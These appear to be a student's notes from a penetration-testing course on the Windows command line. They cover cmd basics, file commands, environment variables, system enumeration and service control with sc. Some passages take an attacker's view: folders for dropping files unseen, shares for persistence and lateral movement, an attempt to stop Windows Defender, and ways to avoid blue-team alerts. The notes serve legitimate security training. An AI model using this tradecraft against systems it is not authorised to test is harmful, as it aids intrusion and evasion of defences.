 # Windows Command Line

|PowerShell | Command Prompt|
|--- |---|
|Introduced in 2006 | Introduced in 1981|
|Can run both batch commands and PowerShell cmdlets | Can only run batch commands|
|Supports the use of command aliases | Does not support command aliases|
|Cmdlet output can be passed to other cmdlets | Command output cannot be passed to other commands|
|All output is in the form of an object | Output of commands is text|
|Able to execute a sequence of cmdlets in a script | A command must finish before the next command can run|
|Has an Integrated Scripting Environment (ISE) | Does not have an ISE|
|Can access programming libraries because it is built on the .NET framework | Cannot access these libraries|
|Can be run on Linux systems | Can only be run on Windows systems |

you can run `powershell` commands with `powershell <cmd>` in `cmd`.

# CMD
## Command prompt Basics

How to access it:
#### Locally
- Windows key + `r`, then type `cmd`
- accessing directly `C:\Windows\System32\cmd.exe`

#### Remote Access
- `telnet` (insecure and not recommended)
- `SSH`
- `PsExec`
- `WinRM`
- `RDP`
- ...
  
### Basic Usage

`dir`:
```cmd
C:\Users\htb\Desktop> dir
  
 Volume in drive C has no label.
 Volume Serial Number is DAE9-5896

 Directory of C:\Users\htb\Desktop

06/11/2021  11:59 PM    <DIR>          .
06/11/2021  11:59 PM    <DIR>          ..
06/11/2021  11:57 PM                 0 file1.txt
06/11/2021  11:57 PM                 0 file2.txt
06/11/2021  11:57 PM                 0 file3.txt
04/13/2021  11:24 AM             2,391 Microsoft Teams.lnk
06/11/2021  11:57 PM                 0 super-secret-sauce.txt
06/11/2021  11:59 PM                 0 write-secrets.ps1
               6 File(s)          2,391 bytes
               2 Dir(s)  35,102,117,888 bytes free
```

`help`:
```
C:\htb> help

For more information on a specific command, type HELP command-name
ASSOC          Displays or modifies file extension associations.
ATTRIB         Displays or changes file attributes.
BREAK          Sets or clears extended CTRL+C checking.
BCDEDIT        Sets properties in boot database to control boot loading.
CACLS          Displays or modifies access control lists (ACLs) of files.
CALL           Calls one batch program from another.
CD             Displays the name of or changes the current directory.
CHCP           Displays or sets the active code page number.
CHDIR          Displays the name of or changes the current directory.
CHKDSK         Checks a disk and displays a status report.

<snip>
```
```
C:\htb> help time

Displays or sets the system time.

TIME [/T | time]

Type TIME with no parameters to display the current time setting and a prompt
for a new one. Press ENTER to keep the same time.

If Command Extensions are enabled, the TIME command supports
the /T switch which tells the command to just output the
current time, without prompting for a new time.
```
Commands might not support the `help` utility. you can try `<command> /?`.
Other options include [Microsoft documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands) and [ss64](https://ss64.com/nt/).


`cls` to clear screen. 

History commands:
|Key/Command | Description|
|-- | -- |
|doskey /history | doskey /history will print the session's command history to the terminal or output it to a file when specified.|
|page up | Places the first command in our session history to the prompt.|
|page down | Places the last command in history to the prompt.|
|⇧ | Allows us to scroll up through our command history to view previously run commands.|
|⇩ | Allows us to scroll down to our most recent commands run.|
|⇨ | Types the previous command to prompt one character at a time.|
|⇦ | N/A|
|F3 | Will retype the entire previous entry to our prompt.|
|F5 | Pressing F5 multiple times will allow you to cycle through previous commands.|
|F7 | Opens an interactive list of previous commands.|
|F9 | Enters a command to our prompt based on the number specified. The number corresponds to the commands place in our history.|

`Ctrl + C` to interrupt command.

### System Navigation

- `cd` and `chdir` work like the linux `cd` command.
- `tree` command:
  - ```
    C:\htb\student\> tree

    Folder PATH listing
    Volume serial number is 26E7-9EE4
    C:.
    ├───3D Objects
    ├───Contacts
    ├───Desktop
    ├───Documents
    ├───Downloads
    ├───Favorites
    │   └───Links
    ├───Links
    ├───Music
    ├───OneDrive
    ├───Pictures
    │   ├───Camera Roll
    │   └───Saved Pictures
    ├───Saved Games
    ├───Searches
    └───Videos
        └───Captures
    ```
  - use `tree /F` to list files as well.

#### Interesting directories
|Name: | Location: | Description:|
| --- | --- | --- |
|%SYSTEMROOT%\Temp | C:\Windows\Temp | Global directory containing temporary system files accessible to all users on the system. All users, regardless of authority, are provided full read, write, and execute permissions in this directory. Useful for dropping files as a low-privilege user on the system.|
|%TEMP% | C:\Users\<user>\AppData\Local\Temp | Local directory containing a user's temporary files accessible only to the user account that it is attached to. Provides full ownership to the user that owns this folder. Useful when the attacker gains control of a local/domain joined user account.|
|%PUBLIC% | C:\Users\Public | Publicly accessible directory allowing any interactive logon account full access to read, write, modify, execute, etc., files and subfolders within the directory. Alternative to the global Windows Temp Directory as it's less likely to be monitored for suspicious activity.|
|%ProgramFiles% | C:\Program Files | folder containing all 64-bit applications installed on the system. Useful for seeing what kind of applications are installed on the target system.|
|%ProgramFiles(x86)% | C:\Program Files (x86) | Folder containing all 32-bit applications installed on the system. Useful for seeing what kind of applications are installed on the target system.|

### Working with Directories and Files

- `dir /s <drive:>\<pattern>` to search for files/directories
- `md` or `mkdir` to create a new directory
- `rd` or `rmdir` to delete an empty directory
  - `rd /S` to allow prompt to delete non-empty directory
- `move <src> <dst>` to move directory
- `xcopy <scr> <dst> <opts>` to copy a file, **removes the read-only bit** [deprecated, use `robocopy`]
  - use `/E` options to copy folder and subfolders, including empty folders

#### Robocopy

The heavy-duty rsync-style copying command of windows.

`robocopy C:\source D:\destination`

If given `SeBackupPrivilege` and `SeRestorePrivilege` we can use the `/B` option to copy any file in backup mode and have full rights over them.

Robocopy can also work with system, read-only, and hidden files. As a user, this can be problematic if we do not have the `SeBackupPrivilege` and auditing privilege attributes.  This could stop us from duplicating or moving files and directories. There is a bit of a workaround, however. We can utilize the `/MIR` switch to permit ourselves to copy the files we need temporarily.

When permission are unsufficient, utilizing the `/MIR` switch will complete the task for us. Be aware that it will mark the files as a system backup and hide them from view. We can clear the additional attributes if we add the `/A-:SH` switch to our command. Be careful of the `/MIR` switch, as it will mirror the destination directory to the source (aka delete existing destination files).

### Files

#### Viewing file content

- `more` -> `less` command in linux
  - Go up and down with `enter` or `space bar`
  - `/S` to crunch blank space
  - Pipe output to `more`: eg. `ipconfig /all | more`

- `type` to simple print a file to the screen
  - Doesn't lock file
  - `type example-1.txt >> example-2.txt`, same as linux

#### Creating and modifying files

With `echo`
```cmd
C:\Users\htb\Desktop>echo Check out this text > demo.txt

C:\Users\htb\Desktop>type demo.txt
Check out this text

C:\Users\htb\Desktop>echo More text for our demo file >> demo.txt

C:\Users\htb\Desktop>type demo.txt
Check out this text
More text for our demo file
```

with `fsutil`:
```cmd
C:\Users\htb\Desktop>fsutil file createNew for-sure.txt 222
File C:\Users\htb\Desktop\for-sure.txt is created

C:\Users\htb\Desktop>echo " my super cool text file from fsutil "> for-sure.txt

C:\Users\htb\Desktop>type for-sure.txt
" my super cool text file from fsutil "
```

rename a file with `ren`:
```
ren demo.txt superdemo.txt
```

### Input/Output

We can utilize the <, >, |, and & to send input and output from the console and files to where we need them. With > we can push the output of a command to a file.

Append to a file:
```
C:\Users\htb\Documents> echo a b c d e > test.txt

C:\Users\htb\Documents>type test.txt
a b c d e

C:\Users\htb\Documents>echo f g h i j k see how this works now? >> test.txt

C:\Users\htb\Documents>type test.txt
a b c d e
f g h i j k see how this works now?
```

pass in a file to a command:
```
C:\Users\htb\Documents>find /i "see" < test.txt

f g h i j k see how this works now?
```

pip output between commands:
```
C:\Users\htb\Documents>ipconfig /all | find /i "IPV4"

   IPv4 Address. . . . . . . . . . . : 172.16.146.5(Preferred)
```

Run A then B:
```
C:\Users\htb\Documents>ping 8.8.8.8 & type test.txt

Pinging 8.8.8.8 with 32 bytes of data:
Reply from 8.8.8.8: bytes=32 time=22ms TTL=114
Reply from 8.8.8.8: bytes=32 time=19ms TTL=114
Reply from 8.8.8.8: bytes=32 time=17ms TTL=114
Reply from 8.8.8.8: bytes=32 time=16ms TTL=114

Ping statistics for 8.8.8.8:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 16ms, Maximum = 22ms, Average = 18ms
a b c d e
f g h i j k see how this works now?
```
Run A then B, only if A succeeds:
```
C:\Users\student\Documents>cd C:\Users\student\Documents\Backup && echo 'did this work' > yes.txt

C:\Users\student\Documents\Backup>type yes.txt
'did this work'
```

#### Deleting files

Use `del` or `erase`:
```
del <file>
erase <file>
```

use `del /A` to delete based on attributes (also works for listing with `dir`):
```
  /A            Selects files to delete based on attributes
  attributes    R  Read-only files            S  System files
                H  Hidden files               A  Files ready for archiving
                I  Not content indexed Files  L  Reparse Points
                O  Offline files              -  Prefix meaning not
```

Use `/F` to force deletion without confirmation prompt.

#### Copying and moving files

- `copy` -> cp in linux
- `move` -> mv in linux

## Gathering System Information

![What to gather](./Windows_InformationTypesChart.webp)

|Type | Description |
|-----|-------------|
|General System Information | Contains information about the overall target system. Target system information includes but is not limited to the `hostname` of the machine, OS-specific details (`name`, `version`, `configuration`, etc.), and installed hotfixes/patches for the system.|
|Networking Information | Contains networking and connection information for the target system and system(s) to which the target is connected over the network. Examples of networking information include but are not limited to the following: `host IP address`, `available network interfaces`, `accessible subnets`, `DNS server(s)`, `known hosts`, and `network resources`.|
|Basic Domain Information | Contains Active Directory information regarding the domain to which the target system is connected.|
|User Information | Contains information regarding local users and groups on the target system. This can typically be expanded to contain anything accessible to these accounts, such as `environment variables`, `currently running tasks`, `scheduled tasks`, and `known services`.

To keep ourselves on target during enumeration, we want to try and ask ourselves some of the following questions:

- What system information can we pull from our target host?
- What other system(s) is our target host interacting with over the network?
- What user account(s) do we have access to, and what information is accessible from the account(s)?

Say we want to see if we can escalate our priviledge. To do this, we are going to need a thorough understanding of our environment, including the following:

- What user account do we have access to?
- What groups does our user belong to?
- What current working set of privileges does our user have access to?
- What resources can our user access over the network?
- What tasks and services are running under our user account?

Remember that this only partially encompasses all the questions we can ask ourselves to reach our intended goal but simply a tiny subset of possibilities. Without thinking things through and failing to follow any guided structure while performing enumeration, we will struggle to know if we have all the required information to reach our goal. It can be easy to write off a system as being completely patched and not vulnerable to any current `CVEs` or the latest `vulnerabilities`. However, if you only focus on that aspect, it is easy to miss out on the many `human configuration errors` that could exist in the environment. This very reason is why taking our time and gathering all of the information we can on a system or environment should be prioritized in terms of importance over simply exploiting a system haphazardly.

We can then check this information on for example [Exploit DB](https://www.exploit-db.com/).

### How do we get this Information ?

```PowerShell
C:\htb> systeminfo


Host Name:                 DESKTOP-htb
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19042 N/A Build 19042
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free

<snipped>
```

```cmd
C:\htb> hostname

DESKTOP-htb
```

```cmd
C:\htb> ver

Microsoft Windows [Version 10.0.19042.2006]
```

```cmd
C:\htb> ipconfig # or ipconfig /all for more information like MAC addresses, DHCP settings, and DNS Server.

Windows IP Configuration

<SNIP>

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : htb.local
   Link-local IPv6 Address . . . . . : fe80::2958:39a:df51:b60%23
   IPv4 Address. . . . . . . . . . . : 10.0.25.17
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.0.25.1

Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : internal.htb.local
   Link-local IPv6 Address . . . . . : fe80::bc3b:6f9f:68d4:3ec5%26
   IPv4 Address. . . . . . . . . . . : 172.16.50.15
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.50.1

<SNIP>
```

```cmd
C:\htb> arp /a

<SNIP>

Interface: 10.0.25.17 --- 0x17
  Internet Address      Physical Address      Type
  10.0.25.1             00-e0-67-15-cf-43     dynamic
  10.0.25.5             54-9f-35-1c-3a-e2     dynamic
  10.0.25.10            00-0c-29-62-09-81     dynamic
  10.0.25.255           ff-ff-ff-ff-ff-ff     static
  224.0.0.22            01-00-5e-00-00-16     static
  224.0.0.251           01-00-5e-00-00-fb     static
  224.0.0.252           01-00-5e-00-00-fc     static
  239.255.255.250       01-00-5e-7f-ff-fa     static
  255.255.255.255       ff-ff-ff-ff-ff-ff     static

Interface: 172.16.50.15 --- 0x1a
  Internet Address      Physical Address      Type
  172.16.50.1           15-c0-6b-58-70-ed     dynamic
  172.16.50.20          80-e5-53-3c-72-30     dynamic
  172.16.50.32          fb-90-01-5c-1f-88     dynamic
  172.16.50.65          7a-49-56-10-3b-76     dynamic
  172.16.50.255         ff-ff-ff-ff-ff-ff     static
  224.0.0.22            01-00-5e-00-00-16     static
  224.0.0.251           01-00-5e-00-00-fb     static
  224.0.0.252           01-00-5e-00-00-fc     static
  239.255.255.250       01-00-5e-7f-ff-fa     static\

<SNIP>
```

```
C:\htb> whoami

ACADEMY-WIN11\htb-student
```

```
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

```
C:\htb> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Log Users          Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

To list all users on a host:
```
C:\htb> net user

User accounts for \\ACADEMY-WIN11

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
htb-student              WDAGUtilityAccount
The command completed successfully.
```

List all groups or local groups:
```
C:\htb> net group
net group
This command can be used only on a Windows Domain Controller.

More help is available by typing NET HELPMSG 3515.


C:\htb>net localgroup

Aliases for \\ACADEMY-WIN11

-------------------------------------------------------------------------------
*__vmware__
*Access Control Assistance Operators
*Administrators
*Backup Operators
*Cryptographic Operators
*Device Owners
*Distributed COM Users
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Power Users
*Remote Desktop Users
*Remote Management Users
*Replicator
*System Managed Accounts Group
*Users
The command completed successfully.
```

In a domain environment, users are typically required to store any work-related material on a share located on the network versus storing files locally on their machine. These shares are usually found on a server away from the physical access of a run-of-the-mill employee. Typically, standard users will have the necessary permissions to read, write, and execute files from a share, provided they have valid credentials. We can, of course, abuse this as an additional persistence method.
```
C:\htb> net share  

Share name   Resource                        Remark

-------------------------------------------------------------------------------
C$           C:\                             Default share
IPC$                                         Remote IPC
ADMIN$       C:\Windows                      Remote Admin
Records      D:\Important-Files              Mounted share for records storage  
The command completed successfully.
```
Ideally, if we were to find an open share like this while on an engagement, we would need to keep track of the following:

- Do we have the proper permissions to access this share?
- Can we read, write, and execute files on the share?
- Is there any valuable data on the share?
In addition to providing information, shares are great for hosting anything we need and laterally moving across hosts as a pentester.

[Net View](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh875576(v=ws.11)) also will display to us any shared resources the host you are issuing the command against knows of. This includes domain resources, shares, printers, and more.

This is just a quick look at how `CMD` can be used to gain access and continue an assessment with limited resources. Keep in mind that this route is quite noisy, and we will be noticed eventually by even a semi-competent blue team. As it stands, we are writing tons of logs, leaving traces across multiple hosts, and have little to no insight into what their `EDR` and `NIDS` was able to see.

Note: In a standard environment, cmd-prompt usage is not a common thing for a regular user. Administrators sometimes have a reason to use it but will be actively suspicious of any average user executing cmd.exe. With that in mind, using `net *` commands within an environment is not a normal thing either, and can be one way to alert on potential infiltration of a networked host easily. With proper monitoring and logging enabled, we should spot these actions quickly and use them to triage an incident before it gets too far out of hand.

## Finding Files and Directories

```PowerShell
C:\Users\student\Desktop>where calc.exe

C:\Windows\System32\calc.exe

# "where" only looks in our environment path variable
C:\Users\student\Desktop>where bio.txt

INFO: Could not find files for the given pattern(s).

# We need to give our path to look through with /R
C:\Users\student\Desktop>where /R C:\Users\student\ bio.txt

C:\Users\student\Downloads\bio.txt

# Wildcards
C:\Users\student\Desktop>where /R C:\Users\student\ *.csv

C:\Users\student\AppData\Local\live-hosts.csv

# find command, kind of like grep in linux
C:\Users\student\Desktop> find "password" "C:\Users\student\not-passwords.txt" 

# find with option: /V for any line with NOT the pattern, /I to ignore case sensitivity, and /N to display line numbers
C:\Users\student\Desktop> find /N /I /V "IP Address" example.txt

# closer to grep, the findstr command with more complex regex management
C:\Users\student\Desktop> findstr
```

### Evaluating and sorting files

```powershell
# comp command, kind of like diff in linux, /A to have ascii output, /L for line numbers
PS C:\htb> echo a > .\file-1.md
PS C:\Users\MTanaka\Desktop> echo a > .\file-2.md

PS C:\Users\MTanaka\Desktop> comp .\file-1.md .\file-2.md /A
Comparing .\file-1.md and .\file-2.md...
Files compare OK
<SNIP>

PS C:\Users\MTanaka\Desktop> echo b > .\file-2.md

PS C:\Users\MTanaka\Desktop> comp .\file-1.md .\file-2.md /A
Comparing .\file-1.md and .\file-2.md...
Compare error at OFFSET 2
file1 = a
file2 = b  
```

```Powershell
# fc command, more powerful that comp
C:\Users\student\Desktop> fc passwords.txt modded.txt /N

Comparing files passwords.txt and MODDED.TXT
***** passwords.txt
    1:  123456
    2:  password
***** MODDED.TXT
    1:  123456
    2:
    3:  password
*****

***** passwords.txt
    5:  12345
    6:  qwerty
***** MODDED.TXT
    6:  12345
    7:  Just something extra to show functionality. Did it see the space inserted above?
    8:  qwerty
*****
```

## Environment variables

Windows, like any other program, contains its own set of variables known as `Environment Variables`. These variables can be separated into their defined scopes known as `System` and `User` scopes. Additionally, there is one more defined scope known as the `Process` scope; however, it is volatile by nature and is considered to be a sub-scope of both the `System` and `User` scopes. Keeping this in mind, let's explore their differences and intended functionalities.

|Scope | Description | Permissions Required to Access | Registry Location|
|------|-------------|--------------------------------|------------------|
|System (Machine) | The System scope contains environment variables defined by the Operating System (OS) and are accessible globally by all users and accounts that log on to the system. The OS requires these variables to function properly and are loaded upon runtime. | Local Administrator or Domain Administrator | HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment|
|User | The User scope contains environment variables defined by the currently active user and are only accessible to them, not other users who can log on to the same system. | Current Active User, Local Administrator, or Domain Administrator | HKEY_CURRENT_USER\Environment|
|Process | The Process scope contains environment variables that are defined and accessible in the context of the currently running process. Due to their transient nature, their lifetime only lasts for the currently running process in which they were initially defined. They also inherit variables from the System/User Scopes and the parent process that spawns it (only if it is a child process).|
|

#### Using Set and Echo to View Variables


```
C:\Users\htb\Desktop>set %SYSTEMROOT%

Environment variable C:\Windows not defined
```
We see that in this case, it mentions the value itself is not defined; however, this is because we are not defining the value of %SYSTEMROOT% using set in this example.

```
C:\Users\htb\>echo %PATH%

C:\Users\htb\Desktop
```
Unlike the previous command, echo is used to print the value contained within the variable and has no additional built-in features to edit environment variables. 


### Managing environment variables
#### When to Use set Vs. setx

Both [set](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/set_1) and [setx](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/setx) are command line utilities that allow us to display, set, and remove environment variables. The difference lies in how they achieve those goals. The set utility only manipulates environment variables in the current command line session. This means that once we close our current session, any additions, removals, or changes will not be reflected the next time we open a command prompt. Suppose we need to make permanent changes to environment variables. In that case, we can use setx to make the appropriate changes to the registry, which will exist upon restart of our current command prompt session.

Note: Using setx, we also have some additional functionality added in, such as being able to create and tweak variables across computers in the domain as well as our local machine.

`set` and `setx` are have relatively similar syntaxes but `setx` offer more options.

#### Creating variables

Let us go ahead and create a variable to hold the value of the IP address of the Domain Controller (`DC`) since we might find it useful for testing connectivity to the domain or querying for updates. We can do this using the `set` command.

```PowerShell
C:\htb> set DCIP=172.16.5.2

C:\htb> echo %DCIP%

172.16.5.2
```

As we can see, the environment variable %DCIP% is now set and available for us to access. As stated above, this change is considered part of the `process` scope, as whenever we exit the command prompt and start a new session, this variable will cease to exist on the system. We can remedy this situation by permanently setting this variable in the environment using `setx`.

```
C:\htb> setx DCIP 172.16.5.2

SUCCESS: Specified value was saved.
```

Editing variables:
```
C:\htb> setx DCIP 172.16.5.5

SUCCESS: Specified value was saved.

C:\htb> echo %DCIP%

172.16.5.5
```

Deleting a variable:
```
C:\htb> setx DCIP ""

SUCCESS: Specified value was saved.

C:\htb> set DCIP
Environment variable DCIP not defined

C:\htb> echo %DCIP%
%DCIP%
```

### Important Environment Variables

|Variable Name | Description|
|--------------|------------|
|%PATH% | Specifies a set of directories(locations) where executable programs are located.|
|%OS% | The current operating system on the user's workstation.|
|%SYSTEMROOT% | Expands to C:\Windows. A system-defined read-only variable containing the Windows system folder. Anything Windows considers important to its core functionality is found here, including important data, core system binaries, and configuration files.|
|%LOGONSERVER% | Provides us with the login server for the currently active user followed by the machine's hostname. We can use this information to know if a machine is joined to a domain or workgroup.|
|%USERPROFILE% | Provides us with the location of the currently active user's home directory. Expands to C:\Users\{username}.|
|%ProgramFiles% | Equivalent of C:\Program Files. This location is where all the programs are installed on an x64 based system.|
|%ProgramFiles(x86)% | Equivalent of C:\Program Files (x86). This location is where all 32-bit programs running under WOW64 are installed. Note that this variable is only accessible on a 64-bit host. It can be used to indicate what kind of host we are interacting with. (x86 vs. x64 architecture)

And a [complete list](https://ss64.com/nt/syntax-variables.html) of variables.

## Managing Services

Let's look at this from the perspective of an attacker. We have just landed on a victims host and need to:

- Determine what services are running.
- Attempt to disable antivirus.
- Modify existing services on a system.

### Service controller

[SC](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754599(v=ws.11)) is a Windows executable utility that allows us to query, modify, and manage host services locally and over the network. For most of this section, we will utilize `SC` as our defacto way to handle services. We have other tools, like Windows Management Instrumentation (`WMIC`) and `Tasklist` that can also query and manage services for local and remote hosts.

```
C:\htb> sc  

DESCRIPTION:
        SC is a command line program used for communicating with the
        Service Control Manager and services.
USAGE:
        sc <server> [command] [service name] <option1> <option2>...


        The option <server> has the form "\\ServerName"
        Further help on commands can be obtained by typing: "sc [command]"
        Commands:
          query-----------Queries the status for a service, or
                          enumerates the status for types of services.
          queryex---------Queries the extended status for a service, or
                          enumerates the status for types of services.
          start-----------Starts a service.
          pause-----------Sends a PAUSE control request to a service.

<SNIP>  

SYNTAX EXAMPLES
sc query                - Enumerates status for active services & drivers
sc query eventlog       - Displays status for the eventlog service
sc queryex eventlog     - Displays extended status for the eventlog service
sc query type= driver   - Enumerates only active drivers
sc query type= service  - Enumerates only Win32 services
sc query state= all     - Enumerates all services & drivers
sc query bufsize= 50    - Enumerates with a 50 byte buffer
sc query ri= 14         - Enumerates with resume index = 14
sc queryex group= ""    - Enumerates active services not in a group
sc query type= interact - Enumerates all interactive services
sc query type= driver group= NDIS     - Enumerates all NDIS drivers
```

#### Query All Active Services

```cmd
C:\htb> sc query type= service

SERVICE_NAME: Appinfo
DISPLAY_NAME: Application Information
        TYPE               : 30  WIN32
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

SERVICE_NAME: AppXSvc
DISPLAY_NAME: AppX Deployment Service (AppXSVC)
        TYPE               : 30  WIN32
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

SERVICE_NAME: AudioEndpointBuilder
DISPLAY_NAME: Windows Audio Endpoint Builder
        TYPE               : 30  WIN32
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
<SNIP>
```

We can see a complete list of the actively running services on this system. Using this information, we can thoroughly scope out what is running on the system and look for anything that we wish to disable or in some cases, services that we can attempt to take over for our own purposes, whether it be for escalation or persistence.

Returning to our scenario, we recently landed on a host and need to `query` the host and determine if Windows Defender is active. Let's give `sc` query a try.

```cmd
C:\htb> sc query windefend    

SERVICE_NAME: windefend
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (NOT_STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Now, what do we see above? We can tell that Windows Defender is running and, with our current permission set (the one in which we utilized for the query), does not have permission to stop or pause the service (likely because our user is a standard user and not an administrator). We can test this by trying to stop the service.

#### Stopping an Elevated Service as Standard User
```
C:\htb> sc stop windefend

Access is denied.  
```

#### Stopping an Elevated Service as Administrator
```
C:\WINDOWS\system32> sc stop windefend

Access is denied.
```

It seems we still do not have the proper access to stop this service in particular. This is a good lesson for us to learn, as certain processes are protected under stricter access requirements than what local administrator accounts have. In this scenario, the only thing that can stop and start the Defender service is the [SYSTEM](https://learn.microsoft.com/en-us/windows/security/identity-protection/access-control/local-accounts#default-local-system-accounts) machine account.

As an attacker, learning the restrictions behind what certain accounts have access or lack of access to is very important because blindly trying to stop services will fill the logs with errors and trigger any alerts showing that a user with insufficient privileges is trying to access a protected process on the system. This will catch the blue team's attention to our activities and begin a triage attempt to kick us off the system and lock us out permanently.

#### Stopping Services
Moving on, let's find ourselves a service we can take out as an Administrator. The good news is that we can stop the Print Spooler service. Let's try to do so.

```
C:\WINDOWS\system32> sc query Spooler

SERVICE_NAME: Spooler
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0


C:\WINDOWS\system32> sc stop Spooler

SERVICE_NAME: Spooler
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x3
        WAIT_HINT          : 0x4e20


C:\WINDOWS\system32> sc query Spooler

SERVICE_NAME: Spooler
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

It is important to note that not all services will respond to these requests, regardless of our permissions, especially if other running programs and services depend on the service we are attempting to stop.

#### Starting Services

```
C:\WINDOWS\system32> sc start Spooler

SERVICE_NAME: Spooler
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
